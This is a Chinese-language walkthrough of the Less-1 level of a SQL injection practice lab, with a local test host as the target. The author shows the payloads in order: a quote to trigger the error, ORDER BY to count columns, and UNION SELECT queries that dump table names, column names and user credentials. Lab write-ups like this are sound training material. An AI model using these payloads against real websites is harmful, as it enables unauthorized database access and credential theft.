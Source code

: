 # Less-1

## 0x00 注入

http://192.168.0.105/vulnlab/sqli/Less-1/index.php?id=1

添加一个单引号。

?id=1'

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

可以看出，参数id在sql语句中被单引号包括。

?id=1' order by 4--+

Unknown column '4' in 'order clause'

?id=1' order by 3--+

正常

使用order by猜测字段数，--+用来注释掉单引号和其他字符。

显然，这里的字段数有3个。

?id=-1' union select 1,2,3--+

![image-20210112164946461](images/2019-11-22-create_blog_with_github_pages/PicGo.png)

可以看到，显位只有2，3。

?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

![image-20210112165228215](D:\笔记\image\image-20210112165228215.png)

information_schema 是一个数据库，用来存储数据库信息。

group_concat()函数可以将所有数据打印出来。

不用group_concat()就只能看到一个。

?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+

![image-20210112165512418](D:\笔记\image\image-20210112165512418.png)

?id=-1' union select 1, group_concat(username), group_concat(password) from users--+

![image-20210112165611724](D:\笔记\image\image-20210112165611724.png)



## 0x01 分析

报错型注入，参数类型是字符串。
